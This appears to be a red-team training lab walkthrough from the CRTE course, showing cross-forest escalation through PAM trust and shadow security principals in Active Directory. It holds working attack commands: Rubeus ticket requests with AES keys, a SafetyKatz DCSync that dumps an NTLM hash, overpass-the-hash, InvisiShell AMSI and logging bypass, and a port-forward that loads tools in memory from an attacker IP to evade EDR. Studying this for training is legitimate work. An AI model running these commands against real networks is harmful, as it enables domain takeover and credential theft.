CRTE - Certified Red Team Expert
Cross Forest Attacks - Abusing PAM(Privileged Management Principals) Trust - Shadow Security Principals
Before diving into the offensive side of abusing PAM Trusts through Shadow Security Principals, we need to fully grasp how PAM Trusts work, why they exist, and how they enforce security boundaries between forests. PAM (Privileged Access Management) Trusts are a special type of Active Directory trust that is set up between two separate forests: the bastion (admin) forest and the production (user) forest. The bastion forest is designed to act as a secure administrative environment, while the production forest is where the organization’s users, resources, and infrastructure reside. PAM Trusts are meant to limit the exposure of privileged accounts, ensuring that high-privilege users from the bastion forest cannot directly authenticate inside the production forest using their normal credentials. Instead, privileged access must be explicitly granted on a temporary basis through the PAM system, which allows administrators to elevate their access into production when necessary. To make this possible, Microsoft introduced Shadow Security Principals. These are placeholder accounts in the bastion forest that represent privileged users or groups in the production forest. Instead of granting a bastion administrator a direct Enterprise Admin or Domain Admin membership in production, a Shadow Security Principal is created in bastion that has a mapping to a privileged SID inside production.local. Microsoft leverages SID history to handle this process. When an administrator requests temporary privileged access, their authentication token inherits the SID of an Enterprise Admin or Domain Admin in production.local, allowing them to operate with full control without ever formally being part of these groups. This SID mapping mechanism is what we target when abusing PAM Trusts. The design assumes that only trusted administrators in bastion.local can control access to production.local, but if we compromise bastion.local, we can manipulate the Shadow Security Principals to elevate privileges without any additional approval. Exploiting PAM Trusts: Shadow Security Principal Abuse Now that we understand how PAM Trusts work, we shift our focus to breaking them by abusing Shadow Security Principals and SID history to escalate into the production forest. Our attack starts with compromising bastion.local, as this is the gatekeeper for privileged authentication into production.local. Once we control the bastion forest, we enumerate Shadow Security Principals to identify which ones are mapped to privileged accounts in production.local. These objects are stored inside Active Directory under the Shadow Principal Configuration container. Each Shadow Principal has an attribute called msDS-ShadowPrincipalSid, which reveals the actual SID of the privileged account inside production.local. If we find a Shadow Principal mapped to an Enterprise Admin or Domain Admin in production.local, we have our entry point. Since PAM Trusts rely on SID history for privilege inheritance, our main objective is to abuse SID history to forge a privileged authentication token inside production.local. The most effective way to do this is by creating a Golden Ticket with mimikatz or Rubeus, embedding the Enterprise Admin SID from production.local into our Kerberos ticket. This allows us to authenticate as an Enterprise Admin in production.local, bypassing PAM controls entirely. If we cannot directly forge a Golden Ticket, another method is to abuse Kerberos delegation. If Resource-Based Constrained Delegation (RBCD) is enabled between the bastion and production forests, we can configure a Shadow Principal to impersonate a high-privilege account inside production.local, effectively granting us the same level of access as an Enterprise Admin. Another technique involves extracting the trust key between bastion.local and production.local. Since trust accounts are automatically created when a PAM Trust is established, we can extract their credentials using DCSync and forge TGTs (Ticket Granting Tickets) that allow us to authenticate into production.local as if we were a trusted entity. Once inside production.local as an Enterprise Admin, we have full control over the forest. At this point, we can extract credentials, modify Active Directory objects, establish persistence, and remove logs to cover our tracks. Since we bypassed the intended PAM security model, defenders may not immediately detect this attack, especially if logs do not flag SID history injections or abnormal delegation settings. This attack is one of the most critical ways to break PAM Trusts, as it completely invalidates Microsoft's security model, allowing us to take over an environment designed to enforce least-privilege principles. By leveraging Shadow Security Principals, SID history abuse, and Kerberos delegation, we can move from bastion.local into production.local without needing any formal privileged approval, effectively taking control of the entire organization’s infrastructure.
In the lab demonstration, if we start by compromising the bastion forest, our next step would be to abuse PAM Trust to escalate privileges into the production forest. This follows the logical flow of how PAM Trust is designed, and abusing it from the bastion side is the most effective way to break into the production environment.
Initial Compromise of the Bastion Forest
The bastion forest is the secure administrative domain that enforces privileged access control over the production forest. If we successfully compromise this environment, we effectively take control of the PAM infrastructure, which includes privileged accounts, trust configurations, and authentication mechanisms. Since we have already compromised the root forest (techcorp.local), our focus is now on enumerating the Forest Trust from techcorp.local to bastion.local so that we can abuse PAM Trust and escalate further. The goal is to compromise bastion.local and then pivot towards the production forest.Enumerating Forest Trust with AD Module
Even tho we are inside us.techcorp.local(Child Domain), we have already compromised our Root Forest techcorp.local, so, the next step should be the Forest trust enumeration at the Root Forest Level. Let’s start by enumerating the Cross Forest Trusts on techcorp.local. Let’s first run InvisiShell to bypass PowerShell security mechanisms,, then get a new PowerShell session. RunWithRegistryNonAdmin.bat
We can now use ADModule to enumerate Forest Trusts. Remember that, ADModule is by default enabled on Server, but since we are not inside a server, we are inside a workstation, we should import ADModule to be able to start use that. Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1 Get-ADTrust -Filter -Server 'techcorp.local'
- Source Forest: techcorp.local
- Target Forest: bastion.local
- Trust Type: Uplevel (meaning both domains are using Active Directory and support Kerberos authentication)
- Trust Direction: Inbound (indicating that techcorp.local trusts bastion.local, meaning authentication requests can flow from bastion.local into techcorp.local)
- Transitivity: True (this trust can extend to other trusted domains, allowing authentication flow beyond just these two forests)
- Selective Authentication: False (meaning users from bastion.local can authenticate in techcorp.local without needing explicit per-user permission)
- SID Filtering: Disabled (both SIDFilteringForestAware and SIDFilteringQuarantined are False, meaning bastion.local accounts might retain their original SIDs when authenticating in techcorp.local, which can be abused)
- TGT Delegation: False (Ticket-Granting Ticket delegation is not enabled, which means Kerberos ticket forwarding is restricted)
Enumerating Foreign Security Principals with ADModule
Now that have enumerate the Forest Trust and we found that techcorp.local has Forest Trust with Bastion.local, we need to enumerate for possible Foreign Security Principal(FSPs) configured in bastion.local. Get-ADObject -Filter {ObjectClass -eq "ForeignSecurityPrincipal"} -Server 'bastion.local'
The output shows Foreign Security Principals (FSPs) configured, which are security identifiers (SIDs) from a different forest that have been referenced in bastion.local. These FSPs indicate that users or groups from another forest (techcorp.local) have been granted access to resources in bastion.local. When enumerating Foreign Security Principals, the key focus areas should be:
- Identifying Privileged Accounts:
- Mapping FSPs to Trust Relationships:
- Abusing SID History or Privilege Escalation Paths:
- Checking for Misconfigured Permissions:
- If the techcorp.local\Administrator account is part of a privileged group in bastion.local, we might already have high privileges.
- If the SID Filtering is disabled (which we suspect from previous trust enumeration), we can abuse SID history to escalate our privileges.
- If we find a shadow principal mapping, we may already have privileged delegation permissions to bastion.local.

The techcorp.local Domain Administrator has administrative privileges inside bastion.local because it is a member of the Builtin Administrators group in bastion.local. This means we fully control bastion.local without needing further exploitation.
Finding Domain Controller with ADModule
Before we move on, Let’s just quickly enumerate what is the Domain controller of our target. Get-ADDomainController -Filter -Server 'bastion.local'
Forging a Domain Admin’s TGT with Rubeus on techcorp.local
Now that we know that the Domain Controller in bastion.local, let’s move on and access BASTION-DC as administrator. We will simply start by leveraging our access to the techcorp.local Administrator. To accomplish this task we will be using Rubeus.exe and for this we will need the techcorp.local KRBTGT keys. Let’s Encode our Rubeus argument(asktgt) using ArgSplit.bat file and do the copy/paste of the encoded argument into our session. ArgSplit.bat User: Administrator
Domain: techcorp.local
AES256: 58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883
We should now request our Inter-Realm TGT for techcorp.local's Administrator.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /domain:techcorp.local /user:administrator /aes256:58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883 /opsec /dc:techcorp-dc.techcorp.local /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
User: Administrator
Domain: techcorp.local
AES256: 58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883
We should now request our Inter-Realm TGT for techcorp.local's Administrator.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /domain:techcorp.local /user:administrator /aes256:58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883 /opsec /dc:techcorp-dc.techcorp.local /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

Now on the new session as techcorp.local administrator. let’s start by running InvisiShell to bypass Powershell security mechanism before we open a new PowerShell session then copy some files into BASTION-DC before we remotely access it.
Uploading files into BASTION-DC machine
We will be uploading some files to carry on our enumeration from bastion.local domain Controller. Let’s start by uploading InvisiShell. InvisiShell is a tool designed to bypass security controls in PowerShell, allowing for the stealthy execution of scripts by circumventing enhanced logging mechanisms and detection by security software. Here’s a detailed explanation of how InvisiShell works:
- Bypassing PowerShell Security Measures: InvisiShell is specifically created to bypass system-wide transcription, script block logging, and the Anti-Malware Scan Interface (AMSI).
- Hooking .NET Assemblies: InvisiShell achieves its bypass by hooking into the .NET assemblies System.Management.Automation.dll and System.Core.dll.
- Methods of Use: InvisiShell can be launched in two ways, depending on the user's privileges:
- Incapacitating Security Features: By hooking into these .NET assemblies, InvisiShell disables system-wide transcription, AMSI, and script block logging for the current PowerShell session.
- Avoiding Detection: When using InvisiShell, the tool hooks to System.Management.Automation.dll and System.Core.dll, which allows it to avoid system-wide transcription, script block logging, and AMSI.
- Integration with Other Tools: The sources show that InvisiShell can be used in conjunction with other tools, such as PowerUp, PowerView, the AD module, and other PowerShell scripts.
- Clean-up Process: To complete the clean-up, users must type exit in the new PowerShell session created by InvisiShell.
- Modified Version: The class uses a slightly modified version of InvisiShell.
- Location of Tools: All the tools, including InvisiShell, used in the lab environment are located in the C:\AD\tools directory on the student VM. The lab manual also notes that this directory is exempted from Windows Defender, but AMSI may still detect some tools when loaded.
- InvisiShell and Binaries: It is noted that binaries like Rubeus.exe may be inconsistent when used from within an InvisiShell session and should be run from a normal command prompt.
- Example Usage: The lab manual provides examples of using InvisiShell to launch a PowerShell session, import modules, and run commands to exploit a service, bypass AMSI, and extract credentials from a remote machine.

Breaking Down the Command:
- XCOPY → The command for copying files and directories.
- C:\AD\Tools\ADModule-master → The source folder you want to copy.
- \\BASTION-DC.bastion.local\C$\Users\Public → The destination folder.
- /E → Copies all subdirectories, including empty ones.
- /H → Copies hidden and system files.
- /C → Continues copying even if errors occur.
- /I → Assumes the destination is a directory (avoids prompts).
- /Y → Suppresses overwrite confirmation prompts.

WinRS Remote Access
Let’s now remotely access BASTION-DC using winrs and run InvisiShell winrs -r:bastion-dc.bastion.local cmd
.\RunWithRegistryNonAdmin.bat
Enumerating Privileged Management Principals (PAM) with ADModule
Since we already know that by default ADModule is enabled on Servers, let’s enumerate PAM and see if it is enabled on Bastion.local Forest. Let’s first enumerate the trusts on bastion.local since we are already on Domain Controller. Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}
The trust enumeration on bastion.local shows an inbound, forest-transitive trust with production.local, meaning bastion.local trusts authentication from production.local. A major misconfiguration is SID filtering being disabled, allowing SID history injection for privilege escalation. Selective authentication is also disabled, meaning users from production.local might have unintended access. With our control over bastion.local, we can now abuse SID history, find Shadow Principals, and exploit delegation misconfigurations to escalate into production.local and compromise the entire environment.
Since we already confirmed that bastion.local trusts production.local with SID filtering disabled, we need to enumerate the trust relationships directly on production.local. This will help us verify whether PAM Trust is in place and confirm if bastion.local has privileged control over production.local. The focus now is to check how production.local perceives its trust with bastion.local. If we find that PAM Trust is being enforced, we will likely see configurations where bastion.local has privileged delegation rights over privileged accounts in production.local. Once we confirm this, we can look for Shadow Principals in bastion.local, as they are typically mapped to privileged accounts in production.local. If these exist, we can abuse SID history or delegation mechanisms to impersonate high-privilege users and escalate privileges inside production.local, leading to full compromise. The goal is to verify the exact trust type on production.local before we proceed with attacks targeting PAM Trust. If production.local explicitly enforces PAM Trust, we will know exactly how to bypass its security model and escalate privileges further.
If we try to enumerate Forest Trust inside production.local we will face the issue below, because the Forest Trust configured in bastion.local forest to production.local is an “Inbound” trust and not a Bidirectional one, meaning that inside Bation.local we can not make any sort of enumeration into production.local.
Portforwarding to bypass EDR
What If we simply download and execute Rubeus in memory now using our Loader.exe on the target machine? We could simply run SafetyKatz calling it straight from our attacking IP, but we would easily be caught by Defender or any sort of defense mechanism in place on our network.Let’s highlights the importance of my statement above.
Evading detection by security tools when performing actions such as credential dumping with tools like SafetyKatz can be a trigger to compromise all our Red Team operation and let me tell you why.
- Direct Execution is Easily Detected: Running tools like SafetyKatz directly from an attacker's IP address makes it easy for security tools to detect the activity. Security mechanisms, such as Windows Defender and Microsoft Defender for Endpoint (MDE), are designed to identify known malicious tools, their signatures, and their behaviors.
- Network Traffic Monitoring: When Rubeus is executed from an external IP, it generates network traffic that can be monitored and flagged by security tools.
- LSASS Process Access is a Red Flag: Tools like SafetyKatz attempt to access the LSASS process to extract credentials from memory. This is a highly suspicious activity that will easily be detected and is a major indicator of a malicious attack.
- Bypassing Detection Mechanisms: To avoid detection, attackers need to implement various bypass techniques, including:
 netsh interface portproxy add v4tov4:
netsh interface portproxy add v4tov4:
- netsh interface portproxy: This is the part of the netsh utility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.
- add: Specifies that you're adding a new forwarding rule.
- v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port 8080.
3. listenaddress=127.0.0.1:
- The IP address on the local machine where the service will listen for connections.
- 0.0.0.0 means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port 80 (commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).

Hosting files on Attacking Host
We should be hosting our files in our attacking host. This will be requested by our Target BATION-DC.
Disabling Defender
Before we carry on with our target host, we need to disable our firewall on our side. This way we can host the file on our machine with no issues, without having the firewall complaining.
Last but not least first start by encoding our Safetykatz argument (lsadump::dcsync) using ArgSplit.bat file and copy/paste the encoded argument into bastion-dc host where we will be running SafetyKatz. ArgSplit.bat
DCSync Attack
Since we have already compromised bastion.local, we can proceed with a DCSync attack to retrieve the bastion.local domain administrator hashes. To avoid detection, we are running SafetyKatz in memory using our dotnet shellcode loader. Because SafetyKatz requires specific arguments, we encode the lsadump::dcsync command using ArgSplit.bat to bypass character limitations. Once encoded, we copy and paste it into our target session to execute SafetyKatz and extract the necessary credentials. ArgSplit.bat
We are set and reaady for the DCSync now. C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /user:bastion\administrator /domain:bastion.local" "exit"
[DC] 'bastion.local' will be the domain
[DC] 'Bastion-DC.bastion.local' will be the DC server
[DC] 'bastion\administrator' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : Administrator
SAM ACCOUNT
SAM Username : Administrator
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration :
Password last change : 7/12/2019 9:49:56 PM
Object Security ID : S-1-5-21-284138346-1733301406-1958478260-500
Object Relative ID : 500
Credentials:
Hash NTLM: f29207796c9e6829aa1882b7cccfa36d
Supplemental Credentials:
We were able to successfully do the DCSync attack on bastion.local and get the domain administrator’s credentials. So we are ready to move on.
Forging a Domain Admin’s TGT with Rubeus for Bastion.local
Now that we have the bastion.local administrator’s key, we will forge a Ticket Granting Ticket (TGT) using Rubeus to escalate our privileges. By generating a valid TGT for the Administrator account in bastion.local, we can authenticate as a high-privilege user without needing credentials. Once the forged ticket is injected into our session, we will have persistent domain admin access, allowing us to move forward with our objectives inside bastion.local. Let’s start by encoding our Rubeus.exe argument (asktgt) using ArgSplit.bat file and do the copy/paste into the session were we will be executing Rubeus.exe. ArgSplit.bat Now we can run Rubeus.exe to request the TGT
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /domain:bastion.local /user:administrator /aes256:a32d8d07a45e115fa499cf58a2d98ef5bf49717af58bc4961c94c3c95fc03292 /opsec /dc:bastion-dc.bastion.local /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
Now we can run Rubeus.exe to request the TGT
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /domain:bastion.local /user:administrator /aes256:a32d8d07a45e115fa499cf58a2d98ef5bf49717af58bc4961c94c3c95fc03292 /opsec /dc:bastion-dc.bastion.local /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
 Now that we have a new session as bastion.local Domain Admin inside the Bastion DC, we need to run Invisi-Shell again to maintain stealth while enumerating the production.local Forest Trust. Since we now have full administrative control over bastion.local, our focus shifts to identifying how PAM Trust is enforced and whether we can escalate into production.local. By leveraging our privileged access, we will look for Shadow Principals, SID history mappings, and delegation settings that could allow us to move laterally into production.local and gain control over its high-privilege accounts.
.\RunWithRegistryNonAdmin.bat
Now that we have a new session as bastion.local Domain Admin inside the Bastion DC, we need to run Invisi-Shell again to maintain stealth while enumerating the production.local Forest Trust. Since we now have full administrative control over bastion.local, our focus shifts to identifying how PAM Trust is enforced and whether we can escalate into production.local. By leveraging our privileged access, we will look for Shadow Principals, SID history mappings, and delegation settings that could allow us to move laterally into production.local and gain control over its high-privilege accounts.
.\RunWithRegistryNonAdmin.bat
 We are now ready to enumerate production.local.
Get-ADTrust -Filter {(ForestTransitive -eq $True)-and (SIDFilteringQuarantined -eq $False)} -Server production.local
We are now ready to enumerate production.local.
Get-ADTrust -Filter {(ForestTransitive -eq $True)-and (SIDFilteringQuarantined -eq $False)} -Server production.local

The trust enumeration on production.local confirms an outbound, forest-transitive trust with bastion.local, meaning production.local trusts authentication from bastion.local. SID Filtering Quarantined is disabled, but SIDFilteringForestAware is enabled, which might restrict some SID history abuse techniques. Selective Authentication is disabled, allowing users from bastion.local to authenticate without additional permissions. Since bastion.local has a privileged role in PAM Trust, we now focus on identifying shadow principals and delegation paths that can be abused to escalate privileges inside production.local.
Shadow Security Principals Enumeration with ADModule
Let’s now enumerate Shadow Security Principal inside bastion.local Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter -Properties | select Name,member,msDS-ShadowPrincipalSid | fl
The enumeration confirms the existence of a Shadow Security Principal in bastion.local, specifically prodforest-ShadowEnterpriseAdmin, which is mapped to an Enterprise Admin-equivalent SID in production.local. This means that bastion.local has a privileged identity capable of escalating into production.local, reinforcing that PAM Trust is active. The most critical discovery here is the msDS-ShadowPrincipalSid (S-1-5-21-1765907967-2493560013-34545785 “producation.local SID“ + 519 “Enterprise Admin RID”), which links bastion.local's administrator to a privileged SID in production.local. This validates that we can impersonate or manipulate this shadow principal to escalate into production.local. Since Enterprise Admins have full control, obtaining access through this shadow principal gives us complete dominance over the production forest. So, the Administrator of bastion.local is a member of the Shadow Security Principals which is mapped to the Enterprise Admins group of production.local. That is, the Administrator of bastion.local has Enterprise Admin privileges on production.local. Now, we can access the production.local DC as domain administrator of bastion.local from our current domain us.techcorp.local.
Note that production.local has no DNS entry or trust with our current domain us.techcorp.local and we need to use IP address of DC of production.local to access it. Let’s run Get-DnsServerZone command inside bastion-dc to be able to find the production.local domain controller. Get-DnsServerZone -ZoneName production.local |fl
Additionally, to connect to an IP address we have to use NTLM authentication. Therefore, we need to run OverPass-The-Hash with NTLM hash and not AES keys of the domain administrator of bastion.local. Let’s start by encoding our Rubeus.exe argument (sekurlsa::opassth) using ArgSplit.bat file and do the copy/paste into the session were we will be executing Rubeus.exe. ArgSplit.bat
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:administrator /domain:bastion.local /ntlm:f29207796c9e6829aa1882b7cccfa36d /run:cmd.exe" "exit"
PowerShell Remoting using IP
